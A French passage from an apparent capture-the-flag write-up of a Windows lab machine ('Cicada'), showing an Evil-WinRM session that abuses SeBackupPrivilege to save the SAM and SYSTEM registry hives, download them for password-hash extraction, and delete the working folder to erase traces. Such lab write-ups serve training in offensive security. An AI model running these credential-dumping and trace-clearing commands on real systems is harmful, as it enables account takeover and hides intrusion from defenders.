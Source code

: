 ## Exploration

En nous intéressant aux privilèges de l'utilistrice Emily, nous constatons qu'elle dispose de droits pour sauvegarder des fichiers et des dossiers.

```txt
*Evil-WinRM* PS C:\Users\emily.oscars.CICADA\Documents> whoami /priv
```

{% capture spoil %}

PRIVILEGES INFORMATION
---------- -----------

Privilege Name                Description                    State
============================= ============================== =======
SeBackupPrivilege             Back up files and directories  Enabled
SeRestorePrivilege            Restore files and directories  Enabled
SeShutdownPrivilege           Shut down the system           Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
{% endcapture %}
{% include elements/spoil.html %}

En suivant les instructions du site [HackTricks](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/privileged-groups-and-token-privileges#a-d-attack) nous sommes en mesure de sauvegarder et extraire des clés de registres qui seront utiles pour récupérer les hashes de mots de passe. Nous utilisons un dossier temporaire dans le répertoire Music de l'utilisatrice afin de limiter les interactions avec les autres utilisateurs. Puis nous effaçons nos traces une fois le téléchargement effectué.

```txt
*Evil-WinRM* PS C:\Users\emily.oscars.CICADA\Music\temp> reg save hklm\sam C:\Users\emily.oscars.CICADA\Music\temp\sam
The operation completed successfully.

*Evil-WinRM* PS C:\Users\emily.oscars.CICADA\Music\temp> reg save hklm\system C:\Users\emily.oscars.CICADA\Music\temp\system
The operation completed successfully.

*Evil-WinRM* PS C:\Users\emily.oscars.CICADA\Music\temp> download sam
                                        
Info: Downloading C:\Users\emily.oscars.CICADA\Music\temp\sam to sam
                                        
Info: Download successful!
*Evil-WinRM* PS C:\Users\emily.oscars.CICADA\Music\temp> download system
                                        
Info: Downloading C:\Users\emily.oscars.CICADA\Music\temp\system to system
                                        
Info: Download successful!
*Evil-WinRM* PS C:\Users\emily.oscars.CICADA\Music\temp> cd ../../Documents
*Evil-WinRM* PS C:\Users\emily.oscars.CICADA\Documents> rm -r ../Music/temp
```
